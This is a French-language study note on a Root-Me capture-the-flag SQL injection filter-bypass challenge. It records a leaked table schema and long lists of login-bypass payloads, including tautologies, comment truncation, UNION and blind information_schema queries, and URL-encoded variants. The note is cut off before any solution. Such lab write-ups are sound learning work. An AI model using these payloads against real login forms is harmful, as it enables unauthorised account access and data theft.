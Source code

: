 ```yaml
---
categorie: web-server
tags:
  - rootme
  - "#informatique/cyber"
lien: https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-Contournement-de-filtres
---
```

# But

se connecter en admin avec une injection SQL

# Fourni

une login page avec une autre page qui nous annonce qu'un compte avec pour user "admin" et id "1" existe
on sait aussi qu'il faudra faire un contournement de filtre

Je vois dans le code source : 

```
<!--
// CREATE TABLE IF NOT EXISTS `membres` (
//   `id` int(1) NOT NULL AUTO_INCREMENT,
//   `username` VARCHAR(5) NOT NULL,
//   `pass` VARCHAR(20) NOT NULL,
//   `email` VARCHAR( 50 ) NOT NULL,
//   PRIMARY KEY (`id`)
// ) ENGINE=MyISAM  DEFAULT CHARSET=latin1 AUTO_INCREMENT=2 ;
-->
```

je sais donc que c'est une bd "MyISAM" et j'ai aussi le nom de champs
# Méthode de résolution

il faudrait que je me mette à utiliser sqlmap et les autres outils d'injection SQL

[root me a une fiche d'aide pour cela ](https://www.root-me.org/Outil-Sqlmap)


Payload testé pour login
```
' OR 1=1--
' OR '1'='1'--
' OR '1'='1'#
' OR 1=1#
' OR 1=1/*

' OR 'a'='a'--
' OR 'a'='a'#
' OR 'a'='a'/*
' OR 1=2 UNION SELECT 1,2,3--
' OR EXISTS(SELECT 1 FROM members)--

' OR username LIKE 'adm%'--
' OR ASCII(SUBSTRING((SELECT database()),1,1))>64--
' OR LENGTH((SELECT table_name FROM information_schema.tables LIMIT 1))>1--

admin'--
admin'#
admin'/*
```

Payloads testés pour le pass
```
' OR 1=1--
' OR '1'='1'--
' OR '1'='1'#
' OR 1=1#
' OR 1=1/*

1234' OR 'a'='a'--
1234' OR '1'='1'--
1234' OR 1=1#
1234' OR 1=2 UNION SELECT 1,2,3--

' OR (SELECT COUNT(*) FROM information_schema.tables)>0--
' OR (SELECT LENGTH(username) FROM members LIMIT 1)=5--
' OR password LIKE 'pa%'--
```

Il faut ensuite tester avec des caractères url encodés, au cas ou il y aurai des filtres

```
|   |
|---|
|%27%20OR%201%3D1--|
|%27%20OR%20%271%27%3D%271%27--|
|%27%20OR%20%271%27%3D%271%27%23|
|%27%20OR%201%3D1%23|
|%27%20OR%201%3D1%2F%2A|
||
|%27%20OR%20%27a%27%3D%27a%27--|
|%27%20OR%20%27a%27%3D%27a%27%23|
|%27%20OR%20%27a%27%3D%27a%27%2F%2A|
|%27%20OR%201%3D2%20UNION%20SELECT%201%2C2%2C3--|
|%27%20OR%20EXISTS%28SELECT%201%20FROM%20members%29--|
||
|%27%20OR%20username%20LIKE%20%27adm%25%27--|
|%27%20OR%20ASCII%28SUBSTRING%28%28SELECT%20database%28%29%29%2C1%2C1%29%29%3E64--|
|%27%20OR%20LENGTH%28%28SELECT%20table_name%20FROM%20information_schema.tables%20LIMIT%201%29%29%3E1--|
... (20lignes restantes)